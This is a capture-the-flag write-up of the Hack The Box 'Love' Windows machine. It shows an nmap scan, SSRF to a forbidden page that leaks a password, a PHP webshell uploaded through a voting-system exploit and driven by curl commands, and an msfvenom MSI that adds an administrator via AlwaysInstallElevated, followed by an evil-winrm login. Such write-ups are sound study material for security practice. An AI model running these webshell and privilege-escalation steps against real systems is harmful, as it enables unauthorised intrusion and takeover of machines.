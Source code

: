 Title:HTB: Love
Date: 08-09-2021 17:55
category:security
tags:security, boot2root, HTB, windows, php, AlwaysInstallElevated
meta:security, boot2root, HTB, windows, php, AlwaysInstallElevated

<img class="align-left" src="/media/2021.08/love_card.png" alt="Love card" width="262">

This is a writeup about a retired HacktheBox machine:
[Love](https://www.hackthebox.eu/home/machines/profile/344) published on
May 1 2021 by
[pwnmeow](https://www.hackthebox.eu/home/users/profile/157669)
This box is classified as an easy machine. This box implies a SSRF, some php
file and an AlwaysInstallElevated privilege on a Windows box.

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

We start with an nmap scan. As always with Windows box a lot of ports are open.
We note the few HTTP services (80, 443, 5000).

    :::text
    # Nmap 7.91 scan initiated Thu May 20 09:46:35 2021 as: nmap -sSV -p- -A -oN notes.md 10.129.143.132
    Nmap scan report for 10.129.143.132
    Host is up (0.012s latency).
    Not shown: 65517 closed ports
    PORT      STATE SERVICE      VERSION
    80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
    | http-cookie-flags:
    |   /:
    |     PHPSESSID:
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_http-title: Voting System using PHP
    135/tcp   open  msrpc        Microsoft Windows RPC
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_http-title: 403 Forbidden
    | ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
    | Not valid before: 2021-01-18T14:00:16
    |_Not valid after:  2022-01-18T14:00:16
    |_ssl-date: TLS randomness does not represent time
    | tls-alpn:
    |_  http/1.1
    445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
    3306/tcp  open  mysql?
    | fingerprint-strings:
    |   DNSStatusRequestTCP, SIPOptions:
    |_    Host '10.10.14.70' is not allowed to connect to this MariaDB server
    5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_http-title: 403 Forbidden
    5040/tcp  open  unknown
    5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    | ssl-cert: Subject: commonName=LOVE
    | Subject Alternative Name: DNS:LOVE, DNS:Love
    | Not valid before: 2021-04-11T14:39:19
    |_Not valid after:  2024-04-10T14:39:19
    |_ssl-date: 2021-05-20T14:11:47+00:00; +21m33s from scanner time.
    | tls-alpn:
    |_  http/1.1
    47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    49664/tcp open  msrpc        Microsoft Windows RPC
    49665/tcp open  msrpc        Microsoft Windows RPC
    49666/tcp open  msrpc        Microsoft Windows RPC
    49667/tcp open  msrpc        Microsoft Windows RPC
    49668/tcp open  msrpc        Microsoft Windows RPC
    49669/tcp open  msrpc        Microsoft Windows RPC
    49670/tcp open  msrpc        Microsoft Windows RPC
    <SNIP>

## Web

On the port 80 we have a login form for a PHP voting system.

On the port 443 we have a FileScanner with a demo. As pointed out by the `nmap` scan and the SSL
certificate we need to use another domain `staging.love.htb`

![love ssl certificate](/media/2021.08/love_01.png)

Here we can input an URL to get it "scanned". After a few trial with our files (and a simple python server)
scanned means echoed.

Looking back at our `nmap` scan we can see that we are forbidden to access the webpage on port 5000.
We use the scanner to display it. It contains the password for the voting system `@LoveIsInTheAir!!!!`.

![admin password for the voting system](/media/2021.08/love_02.png)

We connect to the voting system. There is a few vulnerabilities (one of them even unauthenticated Oo)
Using the [(unauthenticated) RCE exploit](https://www.exploit-db.com/exploits/49445) we can get a
webshell by uploading `/usr/share/webshells/php/simple-backdoor.php` as an image for a candidate (after
adding a position). We can then execute Windows command on the OS.

    :::text
    └─$ curl 'http://love.htb/images/simple-backdoor.php?cmd=whoami%20/all'
    <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

    <pre>
    USER INFORMATION
    ----------------

    User Name   SID
    =========== =============================================
    love\phoebe S-1-5-21-2955427858-187959437-2037071653-1002


    GROUP INFORMATION
    -----------------

    Group Name                             Type             SID          Attributes
    ====================================== ================ ============ ==================================================
    Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
    BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
    BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
    CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
    LOCAL                                  Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
    Mandatory Label\Medium Mandatory Level Label            S-1-16-8192


    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                          State
    ============================= ==================================== ========
    SeShutdownPrivilege           Shut down the system                 Disabled
    SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
    SeUndockPrivilege             Remove computer from docking station Disabled
    SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
    SeTimeZonePrivilege           Change the time zone                 Disabled


We can grab the user flag on the way:

    :::text
    └─$ curl 'http://love.htb/images/simple-backdoor.php?cmd=type%20..\..\..\..\Users\Phoebe\Desktop\user.txt'
    <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

    <pre>eb7553538ae21eec5e4d1d444beaf541
    </pre>


# Root

We use the image upload function to put [WinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) on the box
and we run it using our webshell. The output is quit huge (2344 lines).


    :::text
    └─$ curl 'http://love.htb/images/simple-backdoor.php?cmd=winPEASx64.exe' >> winpeas_res
    └─$ wc -l winpeas_res
    2344 winpeas_res

We see that the AlwaysInstallElevated registry keys are set to one both in HKLM
and HKCU.

    :::text
    [+] Checking AlwaysInstallElevated
    [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
      AlwaysInstallElevated set to 1 in HKLM!
      AlwaysInstallElevated set to 1 in HKCU!

We use `msfvenom` to generate an msi file that will "install" a new admin user
with a know password.

    :::text
    └─$ #msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi

We then connect to the box using
[evil-winrm](https://github.com/Hackplayers/evil-winrm) and grab the root flag.

    :::text
    └─$ evil-winrm -i love.htb -u rottenadmin -p 'P@ssword123!'

    Evil-WinRM shell v2.4

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\rottenadmin\Documents> type ..\..\Administrator\Desktop\root.txt
    af2d13b1f523eed72cddf44b166c4601

# Wrapping up

Overall a nice box with a few rabbit hole (very OSCP like). I banged my head a
few time as I did not notice the port 5000 403. Also the CVE used to get the RCE
is completely unauthenticated so a simple Google search "php voting system
exploit" would have return the same exploit. Also the exploit date (May 7) seems to be
posterior to the box publication (May 1) which is odd and maybe not the intended
RCE way.

